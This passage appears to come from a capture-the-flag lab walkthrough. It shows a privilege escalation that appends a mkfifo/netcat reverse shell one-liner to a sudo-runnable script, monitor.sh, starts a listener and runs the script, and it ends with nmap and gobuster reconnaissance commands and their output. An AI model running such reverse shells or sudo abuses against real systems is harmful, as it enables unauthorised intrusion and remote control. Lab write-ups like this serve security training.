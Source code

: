 ### Append to vulnerable file
```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 8443 >/tmp/f' | tee -a monitor.sh
```
in local
```sh
nc -lvnp 8443
```

```sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

## Knowledge Check
Spawn the target, gain a foothold and submit the contents of the user.txt flag.
```sh
nmap -sV -sC 10.129.181.121
```

```sh
gobuster -u 10.129.181.121 -w /home/wowon/Documents/File/SecLists/Discovery/Web-Content/common.txt -fw
```
output
```json
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.129.181.121/
[+] Threads      : 10
[+] Wordlist     : /home/wowon/Documents/File/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/02/16 16:56:12 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/backups (Status: 301)
/data (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/sitemap.xml (Status: 200)
/theme (Status: 301)
=====================================================
2022/02/16 16:59:21 Finished
=====================================================
```
